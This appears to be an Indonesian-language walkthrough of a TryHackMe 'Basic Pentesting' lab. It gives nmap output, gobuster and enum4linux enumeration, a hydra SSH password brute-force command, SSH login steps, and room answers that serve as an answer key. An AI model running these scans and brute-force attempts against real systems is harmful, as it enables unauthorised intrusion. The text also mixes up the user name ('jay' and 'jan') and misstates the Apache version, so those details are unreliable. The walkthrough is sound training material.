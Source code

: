 # CTF Basic Pentesting
- TryHackMe Room: https://tryhackme.com/room/basicpentestingjt
- IP Machine: 10.10.71.212

## Nmap Report
- Baris perintah: `nmap -sV -A <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.71.212             
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 19:52 EDT
Nmap scan report for 10.10.71.212
Host is up (0.20s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/28%OT=22%CT=1%CU=42337%PV=Y%DS=2%DC=T%G=Y%TM=64C454E
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-07-28T19:53:01-04:00
| smb2-time: 
|   date: 2023-07-28T23:53:01
|_  start_date: N/A
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   207.38 ms 10.8.0.1
2   207.68 ms 10.10.71.212

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.86 seconds
```

## Gobuster Report
- Baris perintah: `gobuster dir -u http://<IP Machine> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

- Buka halaman http://<IP Machine>/development di browser, setelah itu buka file **dev.txt** dan **j.txt**

- Isi file dev.txt

- Isi file j.txt

- Dari informasi diatas diketahui bahwa:
	* Ada 2 user dengan inisial J dan K
	* User dengan inisial J memiliki password yang lemah
	* Mesin menggunakan service SMB (Samba)
	* Mesin menggunakan web server Apache versi 2.5.12

## Enum4linux
- Baris perintah: `enum4linux -a <IP Machine>`
- Dari hasil enumerasi diketahui bahwa, 2 user yang dimaksud adalah **jan** dan **kay**

## Brute force
- Dikarenakan jay memiliki password yang lemah dan machine memiliki service SSH maka kita memutuskan untuk melakukan brute force dengan hydra
- Brute force akun SSH jay dengan hydra. Baris perintah:  `hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP Machine> ssh`

## Gaining Access
- Akses SSH dengan user jan. Baris perintah: `ssh jan@<IP Machine>`
- Setelah berhasil masuk kita berada di directory /home/jan. Navigasi ke directory /home dan disana ditemukan home directory kay 
- Navigasi ke directory /home/kay dan disana ditemukan file pass.bak dan directory .ssh
- Kita tidak bisa membaca isi file pass.bak


**Pertanyaan:** What is the name of the hidden directory on the web server(enter name without /)?
**Jawaban:** jawaban bisa dilihat di Gobuster Report
```sh
development
```

**Pertanyaan:** What is the username?
**Jawaban:** Nama user yang di brute force
```sh
jan
```